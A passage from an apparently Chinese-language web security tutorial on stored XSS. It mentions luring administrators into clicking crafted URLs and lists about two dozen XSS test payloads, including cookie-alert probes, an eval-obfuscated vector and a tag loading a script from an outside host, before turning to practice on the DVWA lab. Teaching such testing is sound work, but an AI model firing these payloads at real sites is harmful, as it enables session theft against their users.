 <p>利用方式一般是，通过社会工程学等猥琐姿势，诱导管理员点击我们构造好的URL，触发恶意代码。</p>
<h4 id="-3-xss-">步骤3 存储型xss漏洞的发现与利用</h4>
<p>如果程序员在开发应用时，没有假设“任何用户的输入都是不合法的”，那么漏洞很有可能就产生了。</p>
<p>存储型xss漏洞可以出现在社区发言、留言板、用户信息更改等等页面，总而言之，存在用户输入的地方就可能存在存储型xss漏洞。</p>
<p>于是我们研究出了一个简单粗暴地漏洞验证方法：<code>XSS盲打</code>。</p>
<blockquote>
<p>所谓<code>盲打</code>，就是在用户输入的地方，以尽可能多的方式在尽可能多的输入点测试XSS代码。</p>
</blockquote>
<p>下面给出一些常用的XSS测试方式代码：</p>
<pre><code>"&gt;＜script＞alert（document．cookie）＜/script＞
="&gt;＜script＞alert（document．cookie）＜/script＞
＜script＞alert（document．cookie）＜/script＞
＜script＞alert（vulnerable）＜/script＞
＜script＞alert（"XSS"）＜/script＞
＜script＞alert（"XSS"）＜/script＞
＜ BACKGROUND="[removed]alert（"XSS"）"&gt;
&lt;BODY ONLOAD=alert（"XSS"）&gt;
&lt;BGSOUND src="[removed]alert（"XSS"）;"&gt;
&lt;br size="&amp;{alert（"XSS"）}"&gt;
&lt;LAYER src="http://xss.ha.ckers.org/a.js"&gt;&lt;/layer&gt;
&lt;LINK REL="stylesheet" href="[removed]alert（"XSS"）;"&gt;
&lt;IMG src="[removed]msgbox("XSS")"&gt;
&lt;META HTTP-EQUIV="refresh" CONTENT="0;url=[removed]alert（"XSS"）;"&gt;
&lt;IFRAME src=[removed]alert（"XSS"）&gt;&lt;/IFRAME&gt;
&lt;FRAMESET&gt;&lt;FRAME src=[removed]alert（"XSS"）&gt;&lt;/FRAME&gt;&lt;/FRAMESET&gt;
&lt;TABLE BACKGROUND="[removed]alert（"XSS"）"&gt;
&lt;STYLE&gt;@import"javasc
ipt:alert（"XSS"）";&lt;/STYLE&gt;
&lt; TYPE&gt;.XSS{background-image:url("[removed]alert（"XSS"）");}&lt;/STYLE&gt;&lt;A class="XSS"&gt;&lt;/A&gt;
&lt;STYLE type="text/css"&gt;BODY{background:url("[removed]alert（"XSS"）")}&lt;/STYLE&gt;
&lt;BASE href="[removed]alert（"XSS"）;//"&gt;
getURL("[removed]alert（"XSS"）")
a="get";b="URL";c="[removed]";d="alert（"XSS"）;";eval（a+b+c+d）;
&lt;XML src="[removed]alert（"XSS"）;"&gt;
"&gt; &lt;BODY ONLOAD="a();"&gt;＜SCRIPT＞function a(){alert（"XSS"）;}＜/SCRIPT＞&lt;"
</code></pre><p>我们在DVWA的漏洞测试平台来演练存储型XSS漏洞，先按照前面的方法登陆DVWA，再点击左侧的<code>XSS(Stored)</code>进入存储型XSS漏洞测试模块：</p>
<p><img src="picture/img (83).png" alt="Alt text"></p>